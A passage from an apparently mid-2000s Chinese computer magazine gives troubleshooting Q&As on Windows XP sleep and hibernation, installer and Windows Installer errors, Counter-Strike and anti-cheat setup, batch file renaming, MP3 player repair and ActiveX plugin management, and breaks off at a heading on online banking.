- 答: 一般来讲，这类问题只要重装主板驱动程序就能够解决，或者将“设备管理器”中的支持“ACPI”的硬件删掉，然后重启机器，根据系统提示重新安装这些硬件。如果在新安装的系统上无法待机和休眠，或执行这些功能后系统无法启动，请首先在BIOS中确认已经将STD、STR打开了，如果已经打开，就要确认硬件是否支持ACPI(特别是主板)，或考虑硬件冲突的问题了。

- 问: 我使用的是Windows XP，在屏幕保护程序窗口中我已经将“在恢复时使用密码保护”选择上了，但奇怪的是它并不起任何作用。屏保启动后，动一下键盘或鼠标就会结束屏保，并没有出现让输入密码的窗口呀！
- 答: 在Windows XP下，只将“在恢复时使用密码保护”选择上并不起作用。在桌面上右键打开“属性”，在电源选项属性窗口中选“高级”，勾选“在计算机从待机状态恢复时，提示输入密码”。此外，Windows XP的屏保密码和Windows 9x的也不同，密码不能另外设置，只能使用系统登录时的用户密码打开。

- 问: 有时我的电脑已经用了很长时间，想去休息一下，这时选择了让电脑休眠，但电脑经常一点儿反应都没有？
- 答: 休眠是将内存中的数据保存到硬盘上，由于电脑运行的时间较长，而部分不经常运行的数据保存到了虚拟内存中，这时选择休眠而虚拟内存中部分数据没能及时地释放出来的话，就会发生执行休眠后没有反应的现象了。遇到这种情况，建议最好还是将电脑重启。

- 问: 我在做图或者编程的时候经常要思考一下，所以离开电脑。但有时思考时间过长，再要用电脑时经常会造死机，请问这是为什么？
- 答: 对于许多喜欢制图、编程的用户来说，要注意在程序调试的过程中尽量避免进入休眠状态，因为Windows启动屏幕保护、进入休眠是通过检测输入信号(如移动/单击鼠标)进行的。在制图、编程时，电脑工作总是很忙碌，但此时并不需要通过外界进行任何输入，如果这个时候电脑休眠的话，CPU和内存中的数据就会处于一种“隔离”状态，再次唤醒时，由于唤醒电脑本身通过软件进行，需要占有CPU和内存资源，这样往往会出现内存数据出错，导致蓝屏甚至死机。所以，要尽量做到长时间不用电脑时要先进行存盘，以免造成不必要的损失。

- 问: 为什么进入桌面的“电源选项→休眠”选项后，“启用休眠支持”复选框为灰色不可选？
- 答: 当前系统盘的剩余空间小于内存空间，而休眠时要将内存中的所有内容保存到硬盘上，所以硬盘剩余空间要大于等于内存的容量。清理磁盘，在系统盘中腾出足够的空间即可。

- 问: 为什么我的Windows XP自动从待机状态恢复，但过了两分钟后又自动进入待机呢？
- 答: 这一般是由于网卡的网络唤醒(Wake-on-LAN)功能导致的。请按下Win + Break组合键打开“系统属性”窗口，接着进入“硬件→设备管理器”，双击展开“网络适配器”，然后再双击其中的网卡项打开属性窗口，在“电源管理”选项卡中取消“允许这台设备使计算机脱离待机状态”的勾选。

- 问: 为什么我的 Windows XP 在待机恢复后，无法识别 USB 存储设备呢？
- 答: 如果你是这样的操作流程: 将USB存储设备插入电脑→进入待机状态→在待机过程中取下存储设备并插入另外一个USB端口→从待机中恢复。便会遇到无法识别USB存储设备的故障。解决起来也很简单，只要将存储设备插回原来的USB端口即可。
  另外，在Windows XP从待机和休眠中恢复回来时，请不要马上插入USB存储设备，这样会造成无法识别设备的问题。而应该等5秒钟以上。

- 问: 为什么我的 Windows 2000 不能从待机状态中恢复回来？
- 答: Windows 2000对于BIOS中设定APM待机时间支持得不好。如果你在Windows“控制面板→电源选项”中启用了“高级电源管理”，而主板中设置的待机时间要短于电源选项中设置的时间，那么当你希望从Windows的待机模式中恢复的时候，会发现无法恢复成功，因为当前处于BIOS级别的待机，Windows系统无法干预它。
  另外，Windows 2000的待机功能并不十分完善，比如: 我们就曾经遇到过在采用待机后无法恢复，之后电脑再也无法正常关机。因此，建议最好在Windows 2000中少使用待机功能。

- 问: 为什么我在 Windows XP 中选择重启，但电脑却进入了待机状态？
- 答: 这个故障一般出现在点击“开始→关机”出现的关机对话框后，你不是用鼠标选择重启，而是直接用键盘的箭头按键选择到重启，然后再按下回车键。微软并没有给出解决办法或相关补丁，因此遇到此故障后，建议使用鼠标来选择“重新启动”，然后按单击“确定”按钮进行重启。

- 问: 为什么 Windows XP SP2 从待机恢复时，出现蓝屏，停止码为 STOP: 0x000000D1 (0x0000000C, 0x00000002, 0x00000001, 0xF96C49ED)、DRIVER_IRQL_NOT_LESS_OR_EQUAL？
- 答: 这个故障产生的原因是由于你安装了Sygate Personal Firewall，同时待机时间比较长之后进行恢复。建议升级Sygate Personal Firewall 的最新版，如果还不行请卸载该软件，并使用其他防火墙工具。

- 问: 为什么我想从待机状态恢复时，我的电脑停止响应并死机？
- 答: 这个故障的原因一般是在进入待机状态过程中，你按下了关机按钮，同时在“电源管理”中你又设置了关机按钮为关闭电脑。解决方法为，进入“控制面板→电源管理→高级”，将“在按下计算机关机按钮时”改为“待机”即可。

- 问: 为什么我的电脑无法使用待机和休眠功能呢？
- 答: 这确实是一个普遍现象，建议从以下几个方面来排除:
  1. 建议为Windows打上最新的补丁包，Windows 2000应升级为SP4，Windows XP升级为SP 2，因为之前版本中某些系统关键文件存在问题，比如旧版本的 Usbuhci.sys 会导致从待机状态恢复后USB键盘无法使用或USB键盘无法将Windows唤醒等故障。从而导致休眠和待机不正确。
  2. 升级主板BIOS及芯片组的最新驱动程序。
  3. 如果你在电脑进入待机状态过程中按了USB鼠标的按钮，很可能导致USB老鼠和USB键盘无法唤醒电脑的故障，目前没有好的办法解决，只能建议你通过按机箱开机按钮来唤醒电脑。
  4. 如果你使用的是Nero Burning Rom 5.0~5.5，操作系统为Windows XP SP1，在待机和休眠时会出现死机现象。建议升级Nero。

(Weiyu)

## 七招排除软件安装故障

在使用电脑中，每个人都免不了要安装各种各样的软件。如果在你急需安装一个软件的时候，突然系统拒绝安装，那是什么心情？来看看高手是如何解决那些烦人的软件安装吧。

### 芝麻开门 软件如何在Windows安家？

在C:\Program Files文件夹创建一个专门的文件夹→将需要的文件复制到这个文件夹→为了能正常运行，往往还需要在注册表中写入自己的信息，让Windows“登记在册”→接着一般还要在系统目录复制一些必要的DLL等文件→最后在桌面、开始菜单等位置创建快捷方式。
当然这样的流程是最基本的，许多软件可能还会在相应位置复制配置文件、创建专门的数据文件夹等。
如果以上工作都交给用户来完成，那就太麻烦了，所以软件安装程序制作工具便出现了，它们的作用就是根据软件制作者的设置，让创建文件夹、复制文件、写入注册表等操作自动完成，同时将所有需要的文件打包成一个文件或几个文件，用户只要双击运行其中的安装文件即可快速完成软件安装。

### 都有哪些软件安装程序制作工具

1.  简单的批处理脚本，包括纯粹的复制和注册动态链接库。
2.  各种压缩软件的自解压模块，如 WinRAR、WinZIP 等，利用此方式制作的安装程序一般是一些不需要复杂设置的软件。比如 nVIDIA 显卡驱动程序等。
3.  完全自主开发的制作工具，这种程序不是很多，如 RealONE 等。
4.  专业制作工具。如 InstallShield 6.x、Nullsoft Installation System(NSIS)、Wise Installation System 和免费的 Inno Setup 等。
5.  Windows 自带的安装引擎，Windows 有两套安装引擎，一是通过编写 INF 文件来安装，绝大多数驱动程序都是通过这种方式安装的，它一直伴随着 Windows，可以完成简单的安装任务。另一种就是通过 Windows Installer 引擎来完成安装程序制作，这是 Windows 目前推荐的安装方式，而各大专业安装程序制作工具开发商也推出了基于 Windows Installer 引擎的安装软件包，如最新的 InstallShield Premier Edition 10.5，它既可以制作基于 InstallShield 安装引擎的安装程序，又能开发基于 Windows Installer 引擎的安装软件。

### 如何判断软件使用的安装程序制作工具

1.  Wise Installation System
    FlashGet 安装程序就是用 Wise 制作的，从该软件的安装界面上就能看出来(见图1)。

## 2. Inno Setup

本期《我的第一款Software发布啦》就是利用这个软件完成的，生成的安装程序一般都是标准的Windows向导模式（见图2），代表软件有Ultrasio及FlashFXP等。你可以在安装程序上右击，选择“属性→版本”，在“备注”中可以看到“This installation was built with Inno Setup: http://www.innosetup.com”的提示。

## 3. Nullsoft Installation System

用它制作的安装程序一般都是类似Winamp的安装界面（见图3），很容易辨认。代表软件有暴风影音、BitComet等。

## 4. InstallShield

最常见的安装程序制作软件，如图4所示的Yamaha声卡驱动程序界面就是用InstallShield制作的。如果安装程序中包括setup.exe、setup.ini、setup.ins及DATA1.CAB、DATA1.HDR等文件，一般就是InstallShield制作的安装程序。另外，与Inno Setup相同，InstallShield也能通过查看“版本”信息的方法判断。

## 5. 自解压文件

用WinRAR和WinZIP制作的自解压文件，安装WinRAR后，从软件图标上就可以看出，

## 6. Windows Installer

如果文件扩展名为MSI，一定就是Windows Installer格式的，还有些安装程序是setup.exe和一个msi文件，也是基于Windows Installer的安装引擎的，另外有些是单独的EXE文件里面嵌入了MSI文件，一旦运行就能看到如图6所示窗口。代表软件有金山词霸2005、Alcohol 120%及MSN Messenger等。

另外，Nero的安装包也是先用WinRAR进行自解压封装的（见图5）。

## 7. 自制的安装程序

对于自制的安装程序，只有根据经验来判断了。如RealONE、Total Commander等。

## 常见软件安装故障快速排除

### 1. InstallShield

对于InstallShield 6.X制作的安装程序，如果安装错误包括：不支持此接口，RPC错误，Ikernel错误等错误信息，可尝试以下方法：

1.  用“任务管理器”查看是否存在Ikernel.exe进程，如果存在，且此时确认没有安装程序在运行，可结束该进程后再进行安装；
2.  删除InstallShield目录，如删除目录C:\Program Files\Common Files\InstallShield\Engine和C:\Program Files\Common Files\InstallShield后再进行安装；
3.  下列注册表项无法读取（账户等级低或注册表权限设定出错）：[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID]、[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\Interface]、[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\TypeLib]，出现此问题后，可使用Regedt32.exe来改变账户等级，改变成管理员权限。
4.  如果还是无法解决，则需要登录InstallShield网站搜索答案。比如，在安装时出现了“Error -1608: Unable to Create InstallDriver Instance”的错误，则可登录到http://consumer.installshield.com/然后在Search Consumer Central（搜索用户中心）中输入1608，就能找到问题的解决方案（见图7）。

### 2. Wise Install System

如果是Wise Install System制作的安装程序，同样可以到Wise公司网站寻求答案（http://www.Wise.com/knowbase.asp）。方法与InstallShield类似，在All of these words（关键词）中输入关键词，然后在Article Type（文章类型）中选择Problems（问题），再勾选好操作系统，并选择Products（产品）为Wise Installation System即可。

### 3. Inno Setup

由于Inno Setup脚本文件非常简单，网站上也没有详细资料库，如果出现问题，可登录http://www.jrsoftware.org/isfaq.php或http://www.jrsoftware.org/iskb.php找找看。

### 4. MSI格式

由于MSI安装程序使用了系统服务Windows Installer，一旦该服务出错，就会导致各种各样安装错误。比如安装MSN Messager 6.0时遇到的1603或1601错误，一般就是Windows Installer引起的。如果Windows Installer服务正在运行，可以先试着在“开始→运行”中输入“msiexec /unregserver”（不含引号）停止Windows Installer服务，接着再用“msiexec.exe /regserver”（不含引号）启用服务即可。

如果所有使用Windows Installer安装的程序均不能正常安装，还会出现“不能访问Windows installer服务”的提示。通常这种情况下Windows Installer服务没有安装或没有被设置为“自动”。请和你的支持人员联系以获得帮助。通常这种情况下Windows Installer服务没有安装或没有被设置为“自动”。当再次启用服务时会提示“指定的服务已标记为删除”。而且试图重装Windows Installer时，出现“指定的服务已存在”的错误。这种情况是由于一些软件制作的问题导致Windows Installer不能正常工作，可采用下面的方法。

- 第一步：删除注册表中的[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\MSIServer]项，接着运行instmsiw.exe，如果不行继续进行第二步。
- 第二步：下载http://www.newhua.com/cfan/200503/uninstmsi.inf，右击该文件，选择“安装”，就可以删除一些MSI的dll，注意Windows可能会警告一些系统文件被修改要求插入安装光盘，取消，不必理睬。
- 第三步：重启电脑，按F8键，进入“带命令行的安全模式”，执行下面命令：regsvr32/u %windir%\msi.dll del %windir%\msi.dll
- 第四步：重启系统，运行instmsiw.exe，安装Windows Installer 2.0即可。

### 小提示

- Windows 9x的Windows Installer 2.0下载地址：http://download.microsoft.com/download/WindowsInstaller/Install/2.0/W9XMe/EN-US/InstMsiA.exe
- Windows 2000/NT的Windows Installer 2.0下载地址：http://download.microsoft.com/download/WindowsInstaller/Install/2.0/NT45/EN-US/InstMsiW.exe
- 你还可以安装Windows Installer 3.0，它适用于Windows 2000 SP3/SP4、Windows XP SP1/SP2及Windows 2003，下载地址：http://download.microsoft.com/download/9/e/1/9e14751c-f897-4bbd-af7a-890d9a0f430/WindowsInstaller-KB884016-v2-x86.exe

如果仅仅是某个利用Windows Installer制作的程序无法安装，可使用微软公司的“Windows Installer CleanUp Utility（下载地址：http://support.microsoft.com/kb/290301/zh-cn）清除系统缓存的安装文件，或到Windows文件夹下的Installer目录中（该目录是系统隐藏目录），删除其中的MSI文件，然后重装。

## 今天我们要“爆”CS故障的“头”

1.  问：在网吧打CS的朋友都会抱怨显示器太差，虽然显示器亮度已经调到最大，但画面还是太暗，敌人躲在暗处就看不到了。请问怎么解决？

    答：你可以利用第三方软件来解决，这里推荐Gamma Panel（下载地址：http://www.newhua.com/cfan/200504/gapa.rar），这款绿色免费软件，体积很小（113KB），并且可以为不同的亮度值设置不同快捷键，方便随时切换。下载并解压缩运行后，首先在Hot-key（快捷键）中设置好快捷键，然后点击Save as...（另存为），在窗口中输入任意名称作为显示器当前亮度的一个配置文件，以后在游戏中，只要按下该快捷键就可以恢复默认亮度。接着，调整Gamma（伽玛值）、Brightness（亮度）及Contrast（对比度）值数后，用同样的方法保存另一个配置文件（见图1）。

2.  问：我进入游戏时，总出现Error Opening c:\CS\cstrike\Custom.hpk的提示，然后就退出了，请问是什么原因呀？

    答：这是因为你没有安装反作弊工具Cheating-Death，下载地址：ftp://ftp5.cga.com.cn/pcgame/tool/cd-client-4_27_3-en.exe。

3.  问：我打CS时，帧数太低了，我的配置明明比网吧电脑要强很多，可是只有50~60帧，一开枪帧数更低，请问怎么解决这个问题呢？

    答：影响速度的原因很多，在排除硬件问题后，一般只要关闭“垂直同步”就能解决。右击桌面空白处，选择“属性”，接着点击“设置”标签下的“高级”按钮，在弹出窗口中点击显示型号标签，比如GeForce FX 5600项，再按如图2所示方法，点击“性能和质量设置→垂直同步”，去除“应用程序控制的”项的勾选即可。这样你的CS速度就会大大提升，轻轻松松就能达到99帧。另外网吧中大多使用Windows 98系统，这也是速度快的原因之一。

4.  问：为什么我每次进CS服务器时，都会弹出，第二次再进就可以了呢？

    答：解决这个问题只要打开磁盘管理器的DMA项即可。右击“我的电脑”，选择“属性”，点击“硬件”标签项下的“设备管理器”，分别双击“IDE ATA/ATAPI控制器”下的Primary IDE Channel（主IDE控制器）及Secondary IDE Channel（从IDE控制器），将它们“高级设置”选项卡下的“传送模式”修改为“DMA（若可用）”即可。

5.  问：我在进入一个服务器时显示“Could not connect to game server Reason: connection failed after 4 retries”

    答：这个问题是“不能连接游戏服务器，原因：连接四次失败”。如果出现这个问题，多数是因为你和服务器间的网络问题，建议检查网络，或更换一个游戏服务器，也有可能是因为网络防火墙的问题，关掉网络防火墙一般就能解决问题。

6.  问：我在连接服务器后，会出现“The selected OpenGL Mode is not supported by your video card”的提示，请问这是什么原因？

    答：这个提示是“你的显卡不支持OpenGL模式”，一般是因为没有安装正确的显卡驱动程序所至，在确认驱动没有问题后，请打开“控制面板”，依次选择“显示→设置→高级”，把“疑难解答”标签下的“硬件加速”调至“全”。

7.  问：为什么有些服务器我一进去就会自动退出呢？

    答：出现这个问题通常是因为该服务器安装了Cheating-Death，你只要安装该工具就没问题了。

8.  问：我连接服务器时会出现“You cannot connect to a server running custom game cstrike until you install the consume game”的提示，请问是什么原因呢？

    答：它意思是“在你安装游戏以前不能连接服务器”，要解决这个问题很简单，只要右击CS快捷方式图标，选择“属性”，在空白的“起始位置”处填上CS的目录就可以了。

9.  问：我在打CS时，出现了PID错误，请问是什么原因呢？

    答：这是因为游戏与进程产生了冲突，建议你关闭所有软件后运行CS。

10. 问：我在玩CS 1.5时，只要一切换回桌面声音就没有了，请问有没有解决方法？

    答：这里提供三种解决方案。
    - ①在切换前，先按ESC，切换至CS菜单中，然后再切换就没问题了；
    - ②有时，在切换时按下Shift键，在切换后，也可以保留声音；
    - ③如果你使用的系统为Windows 2000/XP，在切换出来后，可按Ctrl+Alt+Del，打开“任务管理器”，在“应用程序”标签下双击CS程序（即Counter-Strike项）即可，这个方法可以让原本没有声音的CS也恢复，非常不错。

11. 问：我在安装好Cheating-Death后，打CS时，出现了错误，出现了“Your system has been modified. Please remove the modification to play on this server. Code [XX]”（见图3），请问如何解决呢？

    答：这个问题是指“你的系统已经被修改了”，删除被修改的文件后重新进入游戏。代码[XX]。由于现在使用Cheating-Death（以下简称CD）的服务器越来越多，也有很多朋友出现这个问题。要产生这个问题的原因有很多，解决方法也有不少，下面我们就列出几个处理故障的步骤。先清理系统中的病毒，更新显卡驱动程序，为系统打补丁。如果你的CS使用了非法的皮肤，则需要用原版的皮肤替换回来，如果是修改过CS\cstrike\Config.cfg，则请删除该文件，让CS为你重新生成一个正确的。另外如果是使用的老版本CD，则需要下载一个最新的CD 4.272版，并按如下顺序进行安装，先卸载老版本的CD→安装新版本→启动一次CD→卸载CS→重启系统→安装CS→进入CS，并设置，然后退出→启动CD→启动CS，执行完上面这些操作后，一般问题即可解决，如果仍然出现故障还是无法解决，一般重装一次显卡驱动就可以解决问题了。

    注意，由于官方已经放弃了CS 1.5版，所以上面这些解决方法主要是针对CS 1.6，而且新的CD 4.272在CS 1.5下使用根本无效。

12. 问：Cheating-Death 4.27.3不能用在CS 1.5中了，浩方游戏平台也取消了Cheating-Death房间，但在我建服务器后，想知道谁运行了Cheating-Death，请问是否有这样的方法呢？

    答：浩方游戏平台取消了CS 1.5的Cheating-Death（以下简称CD）房间，但其实先开CD再进CS还是有效的，而前面我们所说的CD 4.27.3不支持CS 1.5版是指你开了CD 4.27.3建服务器后，别人不开CD还是可以进入你的服务器，还是可以作弊，但用下面的方法可以判断出进入服务器的人是否打开了CD。

    - 第一步：先从 http://files.unitedadmins.com/files/cd-server-4_21_0-en.zip 处下载CD的最新服务器端。
    - 第二步：将下载的压缩包直接解压到CS目录的cstrike\addons\cdeath（如没有，则创建此文件夹）下，并确认你的cdeath文件夹有cdmod.dll文件。
    - 第三步：打开CS目录下的cstrike文件夹，用“记事本”打开liblist.gam（之前请做好备份），找到gamedll "dlls\mp.dll"，将此行修改为如下两行。
        ```
        cdmod_chain "dlls\mp.dll"
        gamedll "addons\cdeath\cdmod.dll"
        ```
    - 第四步：用“记事本”打开cstrike文件夹下的listenserver.cfg（如果是HLTV服务器就改server.cfg文件），在最后加入一行cdrequired "0"。
    - 第五步：不要打开CD 4.27.3，直接进入浩方，进入CS，建立主机。此后在这个服务器里所有的没开CD的玩家都会被自动改名为[NO C-D]****（其中也包括你自己）。如果有玩家开的是低于CD 4.27.3版本的就会显示[OLD C-D]****。只有开了CD 4.27.3的玩家才不会被自动改名。这个时候是让他开CD，还是直接踢就由你做主了。

    另外，如果想去掉这个服务器端，只要你备份的liblist.gam还原就成了。

    小编有话说：除了上面的问题外，还有两点要注意，一是要安装适合的显卡驱动，再就是要安装DirectX，很多朋友打电话过来询问为什么玩不了CS，其实都是因为没有安装DirectX（下载地址：http://www.onlinedown.net/soft/5288.htm）。

## 巧用工具修改“乱码”文件名

虽然现在有很多批量重命名文件的工具，比如ACDSee、Total Commander、拖把更名器，它们的功能都很强大，但有些特殊情况，这些工具仍然无效，而且各个软件界面各异，使用方法都不太相同，下面我给出另外一种方法，可以解决部分特殊问题，而且非常简单，主要借助我们常用的文本编辑器。

实战：现有一些保存在TEST文件夹下的文件，由于通过HTTP代理，导致下载回来的文件全是%xxx%xxx格式的乱码文件名，现想批量转换为正常文件名。

实战分析：据笔者所知，没有任何现成的改名工具能完成这种形式的转换工作，目前只有使用其他软件来解决。我们需要的工具是“URL编码转换工具”（下载地址：http://silence.hao-8.com/newcode.rar），该工具用于把网址特殊形式的编码转化为正常格式，但这个小工具不能用于修改文件名。还需要一些操作。

- 第一步：点击“开始→运行”，在编辑栏中输入CMD.EXE，然后进入需要改名的文件夹TEST。
- 第二步：在“命令提示符”窗口输入“dir /B >dir.txt”（不含引号），然后用“记事本”打开dir.txt，可以看到dir.txt文件中包含了所有目录下的文件名。删除不需要修改的文件名，如dir.txt。
- 第三步：按Ctrl + A复制dir.txt文件中所有的文字，切换至“URL编码转换工具”中，点击“从剪贴板粘贴”按钮，然后选择“解码”项，这时在右侧窗格中就可以看到解码后正确的文件名了（见图1）。
- 第四步：打开Excel，在B1单元格，按Ctrl+V，将乱码文件名粘贴到该单元格中。
- 第五步：切换回“URL编码转换工具”中，点击“复制到剪贴板”按钮，然后再回到Excel中，在C1单元格，按Ctrl+V，将修改后的文件名粘贴到该单元格中。
- 第六步：将光标定位至A1单元格，输入“ren”（不含引号），拖拽A1单元格边框，复制同样内容（见图2）。
- 第七步：在Excel中选择菜单中的“文件→另存为”，将文件保存为Ren.bat格式。
- 第八步：用“记事本”打开Ren.bat，按Ctrl+H，在“查找内容”中输入“%”（不含引号），在“替换为”中输入“%%”，点击“全部替换”，将所有的%均替换为%%。
- 第九步：执行Ren.bat，就可以将所有的文件名修改回本来面目了。

### 小提示

如果要替换的乱码文件名里包含有空格，则需要为乱码文件名添加好双引号，一般使用支持正则表达式的文本编辑软件（如EmEditor），替换[.*]为“\1”即可（见图3）。

### 友情提示：

除可以使用工具完成外，还可以利用Word里的简繁转化的功能。另外，该功能不仅仅是内码转化，还可以做到某些习惯用语的转换。

（长沙 lyh 山东 高峰）

## 杀木马的软件居然带病毒？

我两天前用诺顿杀毒软件查出C:\Windows\system32目录下有个叫APIHOOKDLL.DLL的文件感染了PWS.Hooker.Trojan病毒，杀无效、隔离无效、删除无效。上百度搜索一下关于这个病毒的信息，很多论坛都有人发现了此病毒，而且都不知道怎样解决。无奈，求人不如求己，只有自己解决了，上诺顿官方病毒网页，它提示说此病毒会盗取我本地的密码，然后发送至指定信箱。

找了N个杀毒软件，从诺顿到金山毒霸到KV2005一直到的最后的瑞星杀毒软件，都不能很好解决此问题，而且只是在诺顿中杀的时候提示找到病毒，在其他任何杀毒软件中都提示一切正常，并没发现任何可疑的地方。

经过两天的摸索，我发现只要同时安装诺顿跟木马克星这两种软件，诺顿就会提示有病毒，而一旦删除木马克星就没了提示。再加上前面所提到的使用其他软件都未能发现此病毒，我怀疑一定是诺顿杀毒软件有问题。

最终在“木马克星”官方讨论区得到了证实，APIHOOKDLL.DLL这个文件是木马克星用来进行密码保护的，由于需要在木马运行前就进入系统，并非木马，删除这个文件会使木马克星失去密码保护功能（见图）。

（辽宁 肖占龙）

## 再谈 XP 变“苹果”

很多朋友安装了本刊第3期《资源和美丽我全要 XP完美克隆Mac OS》一文中介绍的FlyakiteOSX后，出现了一些问题，其中针对字体的问题我们在上期已经解决，下面我们就其他一些问题解答如下。

问题1：安装了FlyakiteOSX后Windows XP无法进行更新

答：Windows XP SP2安装了FlyakiteOSX 1.0后确实无法进行微软2005年2月份大部分安全更新。修复方法如下，完全卸载FlyakiteOSX 1.0，如果无法卸载FlyakiteOSX 1.0，请登录“故障恢复控制台”或者另一个操作系统，将SP2安装包的user32.dl_和shell32.dl_文件使用Expand命令解压到C:\Windows\System32文件夹（user32.dll和shell32.dll），覆盖旧的文件，然后登录Windows XP系统，并重新安装SP2，就可以正常进行安全更新了。

问题2：安装了FlyakiteOSX后，无法使用系统中的计算器及WinRAR了。

答：无法使用WinRAR是因为你系统所装版本与软件所对应的版本不对（建议使用WinRAR 3.X版），建议重装解决，或是在安装时，不要选择WinRAR项即可（见图）。

计算器无法使用的问题是由于FlyakiteOSX替换了系统中DLL及EXE文件所致，但如果不使用则有很多窗口无法完成换肤，也希望作者能在下一版本中修改些BUG。

小编有话说：至截稿时FlyakiteOSX的作者正在开发FlyakiteOSX 2.0，说不定在大家看到本期杂志时已经推出，请大家随时关注FlyakiteOSX更新页面http://osx.portraitofakite.com/index.php。

(Sika Deer 知了)## 拿什么拯救你，我的MP3

近日朋友的MP3坏了，找我帮忙修理。我先对这个“公版”的MP3（外观酷似爱国者的月光宝盒系列）在Windows XP下用Windows自带格式化程序将其格式化，结果128MB的MP3瞬间变成64MB的优盘（歌不能听了，容量也减少一半），我的朋友自认为又被JS给坑了。没办法只有祭出我的杀手锏——MP3修复工具Fixtool。下面就详细地说明一下MP3的拯救过程，以后大家可以轻松解决这些小问题了（以Windows XP的操作环境为例说明）。

- 第一步：从 http://www.newhua.com/cfan/200506/Fixtool.zip 下载并安装 Fixtool。
- 第二步：为出问题的MP3播放器换上新电池，并使用USB线连接电脑。长按MP3上Play键5秒以上，等待计算机识别出一个新设置（见图1）。
- 第三步：点击“下一步”，出现“找到新的硬件向导”，选择“自动安装软件（推荐）”，点击“下一步”，此时系统将会找到一个Player Recovery Device。当系统提示“插入磁盘”时，请选择Fixtool的安装路径（如C:\Program Files\Digital\AudioMS）。找到驱动后确认，完成硬件安装。
- 第四步：点击“开始”菜单中的 Digital Audio Player → Format AudioMS，系统会再次提示找到新硬件，依然选择“自动安装软件（推荐）”，点击“下一步”，系统将会自动运行（如果提示你重新选择文件，请选择Fixtool安装路径），并完成“找到新硬件向导”。
- 第五步：系统找到设备后，再次执行“开始”菜单中的 Digital AudioMS Player 中的 Format AudioMS（见图2），点击Start按钮后，即开始执行格式化。格式化后，播放器不仅可以正常工作，容量也恢复到128MB，整个拯救工作告一段落。



我朋友的这个“公版”MP3采用的是 SigmaTel 3410 的MP3解码芯片，市场上有很多品牌都使用的这款芯片，如爱国者的月光宝盒系列、音子弹MU320、联想F300/F3310以及朝华的75xx系列、魅族MX系列等等。拥有以上系列MP3的朋友可以试着用上面的方法解决此类问题。



最后我要提醒大家注意的是由于我们的MP3播放器均需采用专用的格式化工具（闪存式MP3除外），因此在格式化MP3播放器时，一定不要使用Windows系统的格式化程序，否则会导致播放器无法开机或无法正常工作，强烈建议大家使用附带的管理软件中提供的格式化工具，如果确实没有安装管理软件，也尽量使用删除功能。

（湖北 谭攀峰）

## 网页插件 让我欢喜让我忧

目前，很多网站都采用了微软的插件技术，在用户电脑中以安装插件形式的客户端来完成既定任务。例如大多数网上银行在第一次使用时都需要用户安装插件，否则不能正常使用，也有很多网站或是其他程序也使用插件技术来“坑害”用户。今天就让我们来看一些关于网页插件的热门问答。

### 1. 什么是网页插件？

网页插件多是ActiveX插件（以前也叫做OLE控件或OCX控件），它实际就是一些软件组件或对象，可以直接将其插入到网页或其他应用程序中，一般的软件需要用户单独下载然后执行安装，而ActiveX插件则是在用户浏览到特定的网页时，浏览器自动下载并提示用户安装。像现在的在线杀毒、Flash动画播放、Windows Media Player插件等都是ActiveX插件（见图1）。



### 2. 插件对 Windows 会有影响吗？

当你用浏览器登录一些不正规的网站（尤其是一些英文网站），有时会弹出一个如图1的窗口。窗口内容通常是诱引你安装一个普通的、好玩的、实用的插件程序，并说明安装后将有很多好处。如果你经不起诱惑或没仔细看就点击了“安装”，很可能病毒、木马便乘虚而入，比如QQ狩猎者病毒就是这样做的。
有些对系统资源的消耗非常巨大。打开带有插件的网页时，由于会自动下载ActiveX插件到硬盘中，所以会严重延缓页面开启速度，出现网页开启时间长、无响应甚至电脑假死等现象，必须到控件下载完毕弹出安装对话框时才会恢复正常，就算是网速较快的宽带网络的用户也会延迟数秒，若是网速较慢的用户则会花费更多时间。而且，有些ActiveX插件还会修改系统配置，甚至相互产生冲突，影响Windows的稳定性。
另外，由于网页中的ActiveX控件能在后台运行各种程序、调用Java脚本、下载安装病毒、打开系统端口等，所以很容易被黑客利用，修改或删除你的注册表项，任意读写、删除文件等。

### 3. 怎样才能知道我的电脑是都装了哪些插件？

#### (1) Windows XP SP2的插件管理器

安装Windows XP SP2后，其内置的插件管理器能让你管理相关插件程序，在IE选项窗口中选择“程序”选项卡，然后再单击“管理加载项”按钮。在此可以“启用”、“禁用”相关的加载项，以及对某些插件程序进行更新，但不能通过它卸载某个插件程序。

#### (2) 专业的插件管理程序

如果想获得更专业的插件管理功能，推荐你使用UPIEA 2005(IE插件屏蔽)，下载地址：http://nj.onlinedown.net/soft/35733.htm。软件无需安装可以直接使用，解压后运行程序，程序会自动搜索并列出当前系统中已经安装的插件，并提供卸载功能（见图2）。



### 4. 如何才能摆脱那些烦人的网页插件？

#### (1) 加入受限制的站点

打开IE，点击“工具→Internet选项→安全”，选中“受限制的站点”，接着再单击下面的“站点”按钮，在弹出窗口的文本框中输入“*.网址”，然后单击“添加”按钮即可，你可使用此方法添加那些常见而你又不愿意看到的网页插件。不过这种方法在打开受限网站时会弹出对话框，说明网页ActiveX控件被禁止运行，单击确定才能继续浏览。

#### (2) 充分发挥防火墙功能

有些防火墙软件提供了防恶意网页插件的功能，建议在其设置窗口中好好寻找一下，比如类似“对下载的ActiveX进行扫描”、“禁止危险网页功能下载”等设置就能帮你一定程度上防范不良插件。

#### (3) 终极之道:使用UPIEA 2005

以上方法虽然有效，但都有不足，因此推荐使用UPIEA 2005来给IE进行完美的插件免疫和网站免疫（其实就是将有问题的网站加入到“受限制的站点”列表中）。
首先单击左侧的“插件免疫”按钮，接着单击窗口下面的“推荐”按钮，这样软件会自动选中一般用户不需要的插件项，仔细检查后单击“应用”按钮即可完成免疫。
单击“网站免疫”按钮，在“限制站点”选项卡下单击“全选”按钮，接着再单击“应用”即可。

#### 小提示

UPIEA 2005还支持编辑Hosts文件功能，比如要屏蔽淘宝网自动打开页面，可以单击“网站免疫”按钮，进入“限制访问”选项卡，单击“添加”按钮，在弹出对话框中的“转向IP”栏输入“127.0.0.1”，在“域名”栏输入“www.unionsky.cn #淘宝网广告代理”，相同方法设置添加“www.allyes.com #淘宝网广告代理”。
如果你使用的是Maxthon浏览器，只要打开“选项→广告猎手→启用广告内容过滤”即可过滤淘宝网。

### 5. 为什么我无法使用网上银行？

